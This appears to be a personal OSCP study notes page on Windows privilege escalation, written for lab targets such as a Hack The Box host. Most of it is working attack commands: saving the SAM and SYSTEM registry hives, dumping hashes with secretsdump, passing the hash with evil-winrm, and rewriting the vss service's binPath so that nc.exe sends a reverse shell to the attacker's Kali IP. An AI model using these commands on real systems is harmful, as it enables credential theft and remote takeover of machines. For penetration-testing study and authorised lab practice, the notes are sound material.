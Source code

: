 ## Start here
Also try this: https://github.com/nestef23/my-OSCP-notes/blob/main/PrivilegeEscalation/Windows.md

Check user privileges
```
whoami /priv
```
Interesting entries include:
- SeBackupPrivilege (get arbitrary file read; described below)
- SeLoadDriverPrivilege (load a vulnerable driver and exploit it)
- SeMachineAccountPrivilege (add a machine to the domain)

Check user groups
```
whoami /groups
```
Interesting entries include:
- Server Operators (start and stop services; described below)

  
## SeBackupPrivilege
SeBackupPrivilege privilege exploitation

Obtain SAM and SYSTEM registry hives
```
# Using evil-winrm session to the victim host
cd C:\temp
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```
Extract hashes
```
# On Kali host
secretsdump.py -sam sam -system system LOCAL
OR
impacket-secretsdump -sam sam -system system local

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
Use the hashes (2nd part is the NT hash) with evil-winrm for execution
```
# evil-winrm -u Administrator -H <NT hash> -i cicada.htb
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```

## Server Operators
Server Operators group exploitation

Create malicious service that creates privileged reverse shell nc.exe
```
# Using evil-winrm session, place the nc.exe in the same folder on Kali linux
# nc.exe will be uploaded to the current folder on the Windows host
upload nc.exe

# check running services
sc.exe query

# modify the config of 'vss' service (as this is a popular service) to point to nc.exe
# The 2nd one will not timeout
sc.exe config vss binPath="C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444"
sc.exe config vss binpath="C:\windows\system32\cmd.exe /c C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444""

# On Kali prepare for the connection
nc -nlvp 4444

# Restart the service
sc.exe stop VSS
sc.exe start VSS
```
The above-obtained shell is unstable and might die after a few seconds. A more efficient way would be to obtain a meterpreter shell and then quickly migrate to a more stable process.

Refer to: https://github.com/nestef23/my-OSCP-notes/blob/e963b72f058faffbab4a14b35eb2f6878be04900/InitialAccess/revshells.md#with-msfvenom


